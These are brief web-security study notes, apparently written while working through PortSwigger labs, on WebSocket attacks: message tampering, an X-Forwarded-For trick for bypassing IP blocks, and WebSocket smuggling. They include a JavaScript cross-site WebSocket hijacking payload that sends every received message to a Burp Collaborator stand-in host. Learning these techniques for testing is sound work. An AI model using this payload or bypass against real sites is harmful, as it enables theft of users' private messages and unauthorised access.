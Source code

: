 # WebSocket




###### notes: 
- read [this](https://portswigger.net/web-security/websockets#replaying-and-generating-new-websocket-messages) to generate new WebSocket
- read [this](https://portswigger.net/web-security/websockets#manipulating-websocket-connections) for manipulating WebSockets
- most WebSocket vulnerabilites can be found by tampering with the content Websocket of messages
- `X-Forwarded-For` can be used to bypass ip address block 
- basic method to establish WebSocket connection using javascript
```javascript
var ws = new WebSocket("wss://website.com/chat");//wss for ssl
ws.send("Peter Wiener"); // send message
```
- WebSocket hijacking is simple if no CSRF tokens: 
```javascript
var ws = new WebSocket("wss://target/chat");
ws.onopen = function(){
ws.send("READY");
}
ws.onmessage = function(event){
fetch("burp-collaborator",{method:'POST',body:event.data,mode:'no-cors'})
}

```

###### WebSocket smuggling requests notes:
- reverse proxy doesn't validate headers and backend response status, by sending invalid version in `Sec-WebSocket-Version` header, now the client can access the internal REST API or any internal | Varnish refused to fix this.
- -
- 

- dom-based websocket url poisoning 
- [dom based](https://portswigger.net/web-security/dom-based/websocket-url-poisoning)